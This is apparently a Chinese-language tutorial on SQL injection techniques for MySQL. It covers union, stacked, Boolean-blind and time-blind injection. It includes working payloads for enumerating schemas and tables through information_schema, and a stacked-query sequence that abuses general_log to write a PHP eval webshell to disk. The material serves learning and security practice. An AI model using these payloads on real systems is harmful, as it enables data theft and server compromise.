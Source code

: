 ~~只会注入~~

sql注入是web的早期漏洞，常存在于各种早期的查询，到了现代，sql注入已经演化为了各种不同的数据库注入形式。

# 一、数据库介绍：
数据库是存放数据的仓库，是存放数据的仓库，
大多数的数据库为关系型数据库：
结构为：库->表->列->行
而sql语言就是一种用于数据库的语言，用于告诉数据库我需要什么，有什么需要查询。
而作为一门语言，sql注入就是一种很特别的文字游戏，而sql语句最搞笑的是：他放入其中的填充竟然具有代码效力，例如注释真的可以执行，引号括号之类的真的可能造成不闭合的报错;

一些常用的sql语句：
```sql
# 一些SQL注入常用的函数
version()                 # 查看数据库版本
database()                # 查看当前数据库名
user()                    # 查看当前数据库用户
system_user()             # 查看系统用户名
group_concat()            # 把数据库中的某列数据或某几列数据合并为一个字符串
@@datadir                 # 查看数据库路径
@@version_compile_os      # 查看操作系统
```

在 MySQL5.0 版本后，MySQL 默认在数据库中存放一个information_schema的数据库，该数据库中包含了当前系统中所有的数据库、表、列、索引、视图等相关的元数据信息，是MySql自身信息元数据的存储库，我们需要记住三个表名，分别是 schemata，tables，columns。

根据这一个特点，我们可以做一些操作，来盗取一些有意思的内容，比如，我们可以通过,联合查询等方式来直接查出其中的敏感数据。

# 二、注入方式介绍
## 1、联合注入查询
传统派，最最经典的sql注入方式，利用union语句，同时加上注释，将数据库中的敏感信息脱出来。
这里介绍联合注入的手法：
首先，进行测试，检测语句的包裹形态，检查在什么状态下，语句将出现报错，以此查看其中的包裹，可以利用万能密码字典fuzz一下，可以比较详细的知晓其中的过滤点，一些检测后出现的绕过将在后文中提及。
这里注意，注释的形式与提交信息的方式有关系，如果是一GET方式提交，注释将是 --+ ， 而如果以POST方式提交信息，则会以#为注释。
好，我们继续，

我们输入后看看回显在哪里，此时，查询的结果**通常**会显示在你的电脑上，没有的情况，先不要慌，因为还有很多种可能性。

即使完全没有回显，通过一些方式来判断一些内容的，而且，有一些查询是一定有结果的：

这其中的代表是列数判断的函数 order by ：

order by 1啊2啊3啊4啊…………

即使没有回显，这里在超出列数时是会出现报错的，**如果报错**那就需要考虑其他不同的注入手法了。
那么，假设此时我们已经拿到了列数的数量，在良好的情况下，我们会看见回显。
此时，你会知道回显的位置，在这个前提之下，我们开始一套常规注入的组合拳：
爆库，爆表，爆字段，爆数据
```SQL
SELECT database();
SELECT schema_name FROM information_schema.schemata;
```
可以查询到表的名称，此时，进一步查询
```SQL
--MySQL 4版本时用version=9，MySQL 5版本时用version=10
UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10;   /* 列出当前数据库中的表 */
UNION SELECT TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA=database();   /* 列出所有用户自定义数据库中的表 */
SELECT table_schema, table_name FROM information_schema.tables WHERE table_schema!='information_schema' AND table_schema!='mysql';
```
注意，在注入的过程之中，使用GROUP_CONCAT()函数是一个好习惯，因为有很多的查询只会输出一个结果，而不是多个结果，这个函数将大量的结果拼接进入了一个结果之中，以便能够正常的进行输出。如果此函数被过滤，首先考虑绕过，如若无法绕过，那么就使用limit函数将结果限制在一行，然后一行一行的看。
最后，使用相同的方式进行爆内容就可以了。

ok，最基础的联合注入就结束了。

## 2、堆叠注入：
堆叠注入的危害性相较于联合注入更大，如果说联合注入是纯看的话，堆叠注入给予了攻击者直接操作数据库的权利。
在这里先介绍sql相关的全局变量，sql的全局变量是一种特殊的变量。他决定了数据库中的部分有什么样的权限
比如secure_file_priv对读写文件有影响，若目录在这个变量之中，说明数据库对这个路径的文件有操作的权限。还有很多，这里不一一介绍了。
接下来介绍堆叠注入。
有如下的例子：
```SQL
 select phone,e_mail from guests;select username,password from users;
```
可以发现，在样例中，在一行里嵌套了两条语句，也就是说，在实战之中，我们将语句连起来执行了，因此，我们将不止是可以进行查询操作，而是更进一步能实现修改，增加，删除的操作，因而，我们可以使用这一漏洞实现木马的写入。
样例：
```sql
select "<?php phpinfo();?>" into outfile "/tmp/1.php"；
```
但是，通常情况之下secure_file_priv 被设置为NULL，那么是否是无法利用了？
这里，我们引入堆叠注入
堆叠注入的判断方法：
名称处加单引号报错，加双引号不报错，加单引号和分号不报错，说明存在堆叠注入
参考的使用方法：
```
set global general_log=on;#开启日志记录
set global general_log_file='C:/1.php';#设置日志保存路径
select '<?php eval($_POST['a']) ?>';#写入木马
```

简单来说。由于分号座位作为MySQL语句的结束符。如果支持多语句执行的情况下，可利用此方法执行其他的恶意语句。
但是，大多数的时候，因为api或者数据库引擎的不支持无法实现。

select的过滤绕过：MySQL除了可以使用select查询表中的数据，也可以使用handler语句，这条语句可以一行一行的浏览一个表中的数据，但是handler不具备select的所有功能，是mysql的专属语句，并没用包含到sql标准之中

其参考用法为：
```
# 打开一个表名为 tbl_name 的表的句柄
HANDLER tbl_name OPEN [ [AS] alias]

# 1、通过指定索引查看表，可以指定从索引那一行开始，通过 NEXT 继续浏览
HANDLER tbl_name READ index_name { = | <= | >= | < | > } (value1,value2,...)
    [ WHERE where_condition ] [LIMIT ... ]

# 2、通过索引查看表
# FIRST: 获取第一行（索引最小的一行）
# NEXT: 获取下一行
# PREV: 获取上一行
# LAST: 获取最后一行（索引最大的一行）
HANDLER tbl_name READ index_name { FIRST | NEXT | PREV | LAST }
    [ WHERE where_condition ] [LIMIT ... ]

# 3、不通过索引查看表
# READ FIRST: 获取句柄的第一行
# READ NEXT: 依次获取其他行（当然也可以在获取句柄后直接使用获取第一行）
# 最后一行执行之后再执行 READ NEXT 会返回一个空的结果
HANDLER tbl_name READ { FIRST | NEXT }
    [ WHERE where_condition ] [LIMIT ... ]

# 关闭已打开的句柄
HANDLER tbl_name CLOSE
```
## 3、盲注
绝大多数的题目类型，很多时候题目的查询不会贵你一个确切的结果，只有一些不同的变化，这个时候，就只能等使用盲注的手法来解决问题，盲注的手法分为两种，布尔盲注和时间盲注。
### 布尔盲注
布尔盲注是通过类似回显状态（内容、长度）http响应状态码不同（200、500） http响应头变化（无条件冲顶像、设置cookie）错误代码等布尔状态的变化进行注入。
来判断正确与错误的状态，，寻找其中的区别，以此来判断后续的测试正确与否步骤：
先通过
```SQL
select *from users where id = '1' and 1=1;#
select *from users where id = '1' and 1=2;#
```
接下来，使用如下代码对数据库名称进行类推：
```SQL
select * from users where id = '1' and substr((select database()),1,1) = 'a' #’
 select * from users where id = '1' and substr((select database()),1,1) = 'b' #’
 select * from users where id = '1' and substr((select database()),1,1) = 'c' #’
 select * from users where id = '1' and substr((select database()),1,1) = 'd' #’
select * from users where id = '1' and substr((select database()),1,1) = 'e' #’
 select * from users where id = '1' and substr((select database()),1,1) = 'f' #
select * from users where id = '1' and substr((select database()),2,1) = 'a' #’
 select * from users where id = '1' and substr((select database()),2,1) = 'b' #’
 select * from users where id = '1' and substr((select database()),2,1) = 'c' #’
 select * from users where id = '1' and substr((select database()),2,1) = 'd' #’
select * from users where id = '1' and substr((select database()),2,1) = 'e' #’
 select * from users where id = '1' and substr((select database()),2,1) = 'f' #
```
原理实际上就是一种爆破的手法，直接穷举出内容

布尔盲注的核心手法其实就是使用截取来判断库中的内容；
截取的函数不只有substr。还有mid气功能基本一致，这里做出省略。

### 时间盲注
时间盲注是根据响应的时间来判断查询的成功失败与否的，当查询成功时，响应的时间会比查询失败的结果有所区别，或者我们可以通过构造payload进行判断（sleep语句）。
### 过滤黑名单的检测：
利用字典fuzz检测结果
通过回显的长度可以测定过滤的内容。
